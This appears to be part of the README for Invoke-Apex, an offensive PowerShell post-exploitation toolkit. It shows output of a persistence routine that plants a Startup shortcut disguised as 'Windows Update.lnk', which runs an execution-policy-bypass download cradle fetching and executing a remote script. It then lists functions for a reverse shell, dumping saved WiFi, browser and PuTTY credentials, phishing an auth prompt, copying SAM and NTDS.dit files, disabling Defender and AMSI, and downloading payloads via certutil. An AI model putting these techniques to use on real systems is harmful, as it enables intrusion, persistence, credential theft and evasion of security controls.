 ### Invoke-Persistence(StartupLnk) ###

 [+] Success! "Windows Update.lnk" Installed:
        C:\Users\user\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Windows Update.lnk file.

 [+] LNK Target:
        C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep bypass -nop "IEX (New-Object Net.Webclient).downloadstring('http://192.168.42.89/script.ps1')"

### Invoke-Persistence(StartupLnk) ###
```

# Available Functions / Commands

## Invoke-Apex
```Invoke-Apex``` (Lists all available functions)

## Invoke-Connect
Transfers all Apex functionality to a remote SSL listener, and also functions as a non-interactive powershell reverse "shell" if invoked as a stand-alone cmdlet. (SSL-enabled listener is required)

![screenshot](https://raw.githubusercontent.com/securemode/Invoke-Apex/master/img/Invoke-Connect.png)

Usage: ```PS> Invoke-Connect -ListenerIp 192.168.1.1 -ListenerPort 443```

## Invoke-Creds
Several commands to assist in obtaining credentials from the target host.

#### Available Commands:

```-WiFiCreds```  (Dumps saved Wireless Credentials)

```-IeCreds```    (Dumps saved IE credentials)

```-AuthPrompt``` (Invokes an authentication prompt to the target and captures any entered credentials)

```-PuttyKeys```  (Dumps any saved putty sessions/keys/passwords)

```-CopySAM```    (Utilizes Volume Shadow Copy to copy the SAM, SYSTEM and SECURITY files for offline parsing.)

```-CopyNtds```   (Utilizes Volume Shadow Copy to copy the NTDS.dit and SYSTEM files for offline parsing.)

## Invoke-DefenderTools
Several commands to assist in interacting with Windows Defender.
#### Available Commands:

```-GetExcludes``` (Gets any currently excluded files/paths/extensions from Windows Defender via the Registry)

```-AddExclude``` (Adds a Windows Defender exclude path. Requires elevation.)

```-DisableRtm``` (Disables Windows Defender Real-Time Monitoring. Requires elevation.)

```-DisableAmsi``` (Disables AMSI for the current PowerShell session.)

## Invoke-Download
Commands for downloading files to the target system.
#### Available Commands:

```-PsDownload``` (Downloads a file to the target system using a traditional powershell 'DownloadFile' cradle.)

```-CertUtil``` (Uses certutil to download a file to the target system.)

```-EsentUtl``` (Uses Esentutil.exe to download a file from a remote UNC Path.)

```